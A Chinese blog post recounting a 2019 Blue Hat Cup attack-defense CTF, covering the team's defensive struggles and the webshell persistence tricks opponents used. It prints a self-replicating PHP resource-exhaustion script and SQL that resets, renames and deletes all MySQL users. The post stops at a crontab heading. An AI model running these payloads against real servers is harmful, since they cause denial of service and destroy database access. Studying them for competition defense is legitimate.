 ```yaml
---
title: 蓝帽杯awd总结
date: 2019-08-23 22:25:45
tags:
---
```


&emsp;&emsp;最近沉迷于学习verilog以及计算机底层的相关知识,已经很久没有搞安全了.突然有机会打一场向往已久的AWD令我很是期待.终于我和朴淳 国峰 兴致冲冲的来到了国家会议中心,好生气派.

![blue_hat1](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/blue_hat1.jpg?raw=true)

&emsp;&emsp;下午比赛刚开始,所有服务器直接宕机...不得不说奇安信这个做的不好.过了很久之后修好了,然后我们直接就被打懵了.一直疯狂掉分,直到挂上waf才稍有好转.总结一下学到的一点经验:  

### 关于进攻  

---  

&emsp;&emsp;反正这一次一下攻击都没有打,全程做防御.因为根本来不及代码审计,赛后问了一下对面的大佬怎么打的,他们说是thinkphp的cve,他们也就找到一个洞,然后就进了前十...可见赛前资料的准备有多么重要.另外就后门而言,见到了好几个特别骚的木马,当然不死马是最基础的,其实不死马能起作用主要是因为目录权限配置的有问题,主目录直接给了777肯定会被日啊.普通目录尽量别给写的权限.

&emsp;&emsp;还有一种马是base64加密马,然后添加crontab来写一句话木马.妈的这个是真的难受,我只能写shell一直删,还有就是一定要搅屎.我们有个nginx服务直接被删掉了,我都没发现有这个目录...然后服务一down开始疯狂掉分,我只好去偷别人的静态网页,诶,心里苦.  

&emsp;&emsp;关于搅屎,我痛定思痛,写了好几个搅屎棍:

- 无限复制:  

```php
<?php
    set_time_limit(0);
    ignore_user_abort(true);
    while(1){
        file_put_contents(randstr().'.php',file_get_content(__FILE__));
        file_get_contents("http://127.0.0.1/");
    }
?>
```

> 连名都是随机的,疯狂占资源,算是ddos吧  


- 改数据库密码:  

```sql
update mysql.user set authentication_string=PASSWORD('p4rr0t');# 修改所有用户密码
flush privileges;
UPDATE mysql.user SET User='aaaaaaaaaaaa' WHERE user='root'; 
flush privileges;
delete from mysql.user ;#删除所有用户
flush privileges;
```
&emsp;&emsp;当时比赛的时候没想起来...

- 各种crontab骚东西:  
